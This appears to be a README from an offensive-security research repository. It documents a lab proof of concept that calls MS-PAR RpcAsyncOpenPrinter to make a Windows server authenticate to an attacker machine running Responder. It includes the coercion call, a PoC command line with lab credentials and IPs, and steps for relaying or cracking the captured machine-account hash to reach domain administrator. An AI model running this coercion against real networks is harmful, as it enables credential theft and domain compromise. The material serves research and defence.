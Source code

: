 # MS-PAR - Remote call to RpcAsyncOpenPrinter (opnum 0)

## Summary

 - **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

 - **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol (with uuid `76f03f96-cdfd-44fc-a22c-64950a001209` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncOpenPrinter('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcAsyncOpenPrinter(
   [in] handle_t hRemoteBinding,
   [in, string, unique] wchar_t* pPrinterName,
   [out] PRINTER_HANDLE* pHandle,
   [in, string, unique] wchar_t* pDatatype,
   [in] DEVMODE_CONTAINER* pDevModeContainer,
   [in] DWORD AccessRequired,
   [in] SPLCLIENT_CONTAINER* pClientInfo
 );
```

## References

 - Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

 - Documentation of function `RpcAsyncOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a